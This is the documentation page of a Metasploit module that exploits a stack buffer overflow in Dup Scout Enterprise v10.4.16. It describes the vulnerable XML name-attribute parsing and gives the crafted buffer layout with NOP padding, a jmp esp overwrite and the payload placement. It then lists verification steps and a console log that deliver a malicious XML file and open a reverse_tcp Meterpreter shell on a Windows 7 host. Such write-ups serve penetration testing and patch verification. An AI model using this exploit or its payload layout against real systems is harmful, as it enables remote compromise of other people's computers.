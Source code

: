 ## Description

This module exploits a buffer overflow in libpal.dll that is used by [Dup Scout Enterprise v10.4.16](http://www.dupscout.com/setups/dupscoutent_setup_v10.4.16.exe). The buffer overflow occurs during a call to the SCA_XmlParser::GetToken function when a user-supplied Command file with a crafted name attribute is imported to the Dup Scout application. The SCA_XmlParser::GetToken function is passed a heap pointer as an argument, which was created by the SCA_XmlParser::LoadXmlFile function and contains data from the user-supplied Command file, and a pointer to a stack buffer that was created in the SCA_XmlParser::ParseXmlElement function. While parsing the name attribute, the SCA_XmlParser::GetToken function copies from the heap buffer to the stack buffer until a single quote (to match name=', or a double quote to match name=") is found or until it finishes reading from the allocated heap buffer.

## Vulnerable Application

The vulnerability can be exploited when the size of the name attribute is greater than 1560 bytes.

Note: The allocated stack buffer size is 1564 bytes but the first four bytes are filled with `\xff` during execution of the SCA_XmlParser::GetToken function.

Since the stack buffer was allocated as a local variable for the SCA_XmlParser::ParseXmlElement function, the program's control flow isn't taken over until the return of the SCA_XmlParser::ParseXmlElement function even though the return value is overwritten during execution of the SCA_XmlParser::GetToken function.

The format of the crafted Command file will be:

```
buf = "<?xml ?><a name='"
buf << make_nops(1560)   # Fill up the stack buffer
buf << addr_of_jmp_esp   # overwrite the return address for SCA_XmlParser::ParseXmlElement
buf << make_nops(16)     # account for ret 10h in SCA_XmlParser::ParseXmlElement
buf << inst1             # LEA EAX, [ESP+14h] # Prepare EAX to jump to payload
buf << inst2             # JMP EAX # Jump to our desired location
buf << make_nops(14)     # Fill past possibly corrupted location
buf << payload           # Location that is jumped to
```

Note: The last make_nops will offset the location of the payload. The offset is included to account for writes to the stack buffer that after the user-supplied Command file has been processed.

## Verification Steps

- [ ] Install Dup Scout Enterprise on target system
- [ ] `./msfconsole`
- [ ] `use exploit/windows/fileformat/dupscout_xml`
- [ ] `set payload windows/meterpreter/reverse_tcp`
- [ ] `set lhost <lhost>`
- [ ] `run`
- [ ] `use exploit/multi/handler`
- [ ] `set payload windows/meterpreter/reverse_tcp`
- [ ] `set lhost <lhost>`
- [ ] `run`
- [ ] From the DupScout Enterprise menu select Command -> Import Command
- [ ] Select file generated by metasploit
- [ ] Get a session


## Scenarios

### Dup Scout Enterprise v10.4.16 Windows 7 SP1 x64.

```
msf5 > use exploit/windows/fileformat/dupscout_xml
msf5 exploit(windows/fileformat/dupscout_xml) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/dupscout_xml) > set lhost 172.22.222.120
lhost => 172.22.222.120
msf5 exploit(windows/fileformat/dupscout_xml) > run

[*] Creating 'msf.xml' file ...
[+] msf.xml stored at /home/msfdev/.msf4/local/msf.xml
msf5 exploit(windows/fileformat/dupscout_xml) > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 172.22.222.120
lhost => 172.22.222.120
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.22.222.120:4444 
[*] Sending stage (179779 bytes) to 172.22.222.122

meterpreter > getuid
Server username: .\pwnduser
meterpreter > sysinfo
Computer        : .
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
